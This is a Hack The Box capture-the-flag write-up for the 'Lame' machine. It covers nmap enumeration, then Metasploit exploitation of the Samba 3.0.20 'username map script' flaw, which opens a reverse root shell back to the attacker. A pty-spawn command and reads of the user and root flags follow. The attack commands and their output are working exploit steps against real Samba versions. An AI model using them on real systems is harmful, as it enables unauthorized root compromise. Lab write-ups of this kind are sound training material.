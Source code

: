 ```yaml
---
layout: post
title: LAME(HTB)
categories:
  - Writeup
---
```

<br>OS Linux
<br>IP: 10.10.10.3
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A -O 10.10.10.3
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-16 18:17 EST
<br>Nmap scan report for 10.10.10.3
<br>Host is up (0.16s latency).
<br>Not shown: 996 filtered ports
<br>PORT STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open <font color="53E100">ftp vsftpd 2.3.4</font>
<br>|_ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br><font color="BB69EC">22/tcp</font> <font color="53E100">open ssh OpenSSH 4.7p1</font> Debian 8ubuntu1 (protocol 2.0)
<br>| ssh-hostkey:
<br>| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
<br>|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
<br><font color="BB69EC">139/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.X - 4.X</font> (workgroup: WORKGROUP)
<br><font color="BB69EC">445/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.0.20-Debian</font> (workgroup: WORKGROUP)
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.22 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<br>Host script results:
<br>| smb-os-discovery:
<br>| OS: <font color="53E100">Unix (Samba 3.0.20-Debian)</font>
<br>| NetBIOS computer name:
<br>| Workgroup: WORKGROUP\x00
<br>|_ System time: 2017-12-13T13:56:42-05:00
<br>TRACEROUTE (using port 22/tcp)
<br>HOP RTT ADDRESS
<br>1 164.82 ms 10.10.*.*
<br>2 164.95 ms 10.10.10.3
<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 84.01 seconds</p>
</div>
</font>


<br>**Vulnerabilty**:- _Samba 3.0.20_
**Vulnerabilty Description**:- This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!
<br>**Exploit**:- [_Samba "username map script" Command Execution_](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
 
**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/samba/usermap_script
<br>msf exploit(<font color="red">usermap_script</font>) > set RHOST 10.10.10.3
<br>RHOST => 10.10.10.3
<br>msf exploit(<font color="red">usermap_script</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP double handler on 10.10.*.*:4444</font> 
<br><font color="RoyalBlue">[*]</font> Accepted the first client connection...
<br><font color="RoyalBlue">[*]</font> Accepted the second client connection...
<br><font color="RoyalBlue">[*]</font> Command: echo UTiuwW6uLQ5WcJXz;
<br><font color="RoyalBlue">[*]</font> Writing to socket A
<br><font color="RoyalBlue">[*]</font> Writing to socket B
<br><font color="RoyalBlue">[*]</font> Reading from sockets...
<br><font color="RoyalBlue">[*]</font> Reading from socket B
<br><font color="RoyalBlue">[*]</font> B: "UTiuwW6uLQ5WcJXz\r\n"
<br><font color="RoyalBlue">[*]</font> Matching...
<br><font color="RoyalBlue">[*]</font> A is input...
<br><font color="RoyalBlue">[*]</font> Command shell session 1 opened <font color="53E100">(10.10.*.*:4444 -> 10.10.10.3:57285)</font> at 2017-12-16 22:55:59 -0500

<br>id
<br>uid=<font color="53E100">0(root)</font> gid=<font color="53E100">0(root)</font></p>
</div>
</font>

Now we have a non-interactive root shell, anyway It's optional if you really want a tty shell or not for this situation atleast and after that we are good to go and read the user and root flags.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="53E100">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>root@lame:/# cd /home
<br>cd /home
<br>root@lame:/home# ls
<br>ls
<br><font color="RoyalBlue">ftp  makis  service  user</font>
<br>root@lame:/home# cd makis
<br>cd makis
<br>root@lame:/home/makis# ls
<br>ls
<br>user.txt
<br>root@lame:/home/makis# cat user.txt
<br>root@lame:/home/makis# cd /root
<br>cd /root
<br>root@lame:/root# ls
<br>ls
<br><font color="RoyalBlue">Desktop</font>  <font color="53E100">reset_logs.sh</font>  root.txt  vnc.log
<br>root@lame:/root# cat root.txt</p>
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
